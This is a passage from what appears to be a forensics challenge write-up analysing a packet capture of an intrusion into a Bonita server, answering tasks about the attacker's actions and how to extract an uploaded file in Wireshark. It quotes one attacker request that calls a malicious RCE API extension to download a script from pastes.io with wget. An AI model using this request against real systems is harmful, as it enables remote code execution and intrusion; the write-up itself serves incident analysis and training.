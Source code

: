 In here we find especially this request:
```
/bonita/API/extension/rce?p=0&c=1&cmd=wget%20https://pastes.io/raw/bx5gcr0et8
```

The attacker used `pastes.io`.

### Task 8
Please provide the file hash of the script used by the attacker to gain persistent access to our host.

We already found the HTTP stream were the attacker successful logged in. If we watch closer into the stream we can find a file upload of file called `rce_api_extension.zip`:
![Upload](./images/pcap_file_upload.png)

In Wireshark we can now go to `File -> Export Objects -> HTTP ...`, search for the packet ID or use the content type `multipart/form-data` and save the file.

The exported file still has a file header from the web browser that we have to remove: